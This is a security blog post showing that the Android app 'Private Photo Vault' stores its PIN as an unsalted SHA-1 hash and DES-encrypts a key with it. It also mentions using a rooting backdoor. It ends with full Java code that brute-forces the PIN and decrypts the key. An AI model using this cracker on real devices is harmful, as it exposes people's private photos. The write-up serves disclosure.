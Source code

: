 ```yaml
---
layout: post
title: Password Storage In Sensitive Apps
---
```

Well it isn’t the promised Pork Explosion disclosure, but I ensure you that is coming soon. I have word the update to mitigate it is done, and will be shipping this month. I do however have something else, an example of what Pork Explosion could be stacked with.

Last week I was contacted by a forensic specialist for a law enforcement agency. They had a phone that could make or break a very sensitive case, and their commercial mobile forensic tools were failing to do, well anything. They could not extract any data off the device. After verifying their identity and purpose, I agreed to help. Using a backdoor, very much like Pork Explosion, and some trickery we were able to fully extract all data off the device. This had me thinking, what next? What if this criminal was using another layer of security? What if they had a "secure storage" app, what if their photos, videos and what not were encrypted in an addition layer of security?

Off to the Google PlayStore, searched for "Secure Photo" and downloaded the first result, sure enough the files stored were encrypted.... but the PIN was stored in plaintext as a shared preference. Ok no fun, so I install the second result.

>“Have any photos or videos you don't want someone to see? Hide these private pics and vids securely with Private Photo Vault.”

The second result was [“Private Photo Vault”](https://privatephotovault.com/) by Legendary Software Labs LLC. It has a solid 4 star rating, 1,000,000 to 5,000,000 downloads, and was lasted updated just over two months ago. Using Pork Explosion, I rooted the device and extracted the data directory for Private Photo Vault. The initial results were more promising than the first app, no plaintext PIN stored in the shared preferences. The promise didn’t last long:

Stored in /data/data/com.enchantedcloud.photovault/shared_prefs/com.enchantedcloud.photovault_preferences.xml was what appeared to be the sha1 hash of the PIN and some base64 encoded key.

>name="pin" 7110eda4d09e062aa5e4a390b0a572ac0d2c0220
>name=“enc_keys_pin" Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg==

A quick test confirms:

>Jons-Mac-Pro:~ jcase$ echo -ne 1224|shasum
>4fd505f8aeed956f068c4ce57bfc30a6131b7c79 

A single iteration of SHA1 is all that is protecting your PIN code (which is limited to four digits in length). Then DES is used, padding the PIN with “0” until it has a length of 8, to encrypt a key. I stopped analysis at this point, the app was already beyond broken. The app then goes on to use   Facebook’s Android encryption library [Conceal](https://github.com/facebook/conceal), but I did not go any further.

These companies are selling products that claim to securely store your most intimate pieces of data, yet are at most snake oil. You would have near equal protection just by changing the file extension and renaming the photos.


So for those that want to crack the pin and key for a “Private Photo Vault” installation, here you go.

>public class Main {
>
>    public static void main(String[] args) {
>     
>     // "pin" and "enc_keys_pin" from com.enchantedcloud.photovault_preferences.xml
>        String hashedPIN = "7110eda4d09e062aa5e4a390b0a572ac0d2c0220"; // 1234
>        String encKeyPin = "Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg=="; // 1e8a99cb-ebe8-452c-b9da-6466a8a60e02
>
>        System.out.println("Cracking pin...");
>        String PIN = crackPIN(hashedPIN);
>        System.out.println("PIN is " + PIN);
>
>        System.out.println("Decrypting Key...");
>        String KEY = decryptKey(encKeyPin,PIN);
>        System.out.println("KEY is " + KEY);
>    }
>    
>    private static String decryptKey (String KEY, String PIN) {
>
>        while (PIN.length() < 8) {
>            PIN = PIN + 0;
>        }
>
>        SecretKey secKey = null;
>        try {
>            secKey = SecretKeyFactory.getInstance("DES").generateSecret(new DESKeySpec(PIN.getBytes("UTF8")));
>            byte[] bKey = Base64.decode(KEY);
>            Cipher cipher = Cipher.getInstance("DES");
>            cipher.init(2, (secKey));
>            return new String(cipher.doFinal(bKey));
>        } catch (InvalidKeySpecException e) {
>            e.printStackTrace();
>        } catch (NoSuchAlgorithmException e) {
>            e.printStackTrace();
>        } catch (InvalidKeyException e) {
>            e.printStackTrace();
>        } catch (UnsupportedEncodingException e) {
>            e.printStackTrace();
>        } catch (BadPaddingException e) {
>            e.printStackTrace();
>        } catch (IllegalBlockSizeException e) {
>            e.printStackTrace();
>        } catch (NoSuchPaddingException e) {
>            e.printStackTrace();
>        }
>        return null;
>    }
>
>    private static String crackPIN(String hashedPIN) {
>        for (int i = 0; i <= 9999;i++) {
>            String testPin = Integer.toString(i);
>            while (testPin.length() < 4) {
>                testPin = "0" + testPin;
>            }
>            try {
>                MessageDigest md = MessageDigest.getInstance("SHA-1");
>                md.reset();
>                md.update(testPin.getBytes());
>                if (hashedPIN.equals(bytesToHex(md.digest()))) {
>                    return testPin;
>
>                }
>            } catch (NoSuchAlgorithmException e) {
>                e.printStackTrace();
>            }
>        }
>        return null;
>    }
>
>    private static String bytesToHex(byte[] bytes) {
>        char[] hexArray = "0123456789abcdef".toCharArray();
>        char[] hexChars = new char[bytes.length * 2];
>        for ( int j = 0; j < bytes.length; j++ ) {
>            int v = bytes[j] & 0xFF;
>            hexChars[j * 2] = hexArray[v >>> 4];
>            hexChars[j * 2 + 1] = hexArray[v & 0x0F];
>        }
>        return new String(hexChars);
>    }
>}
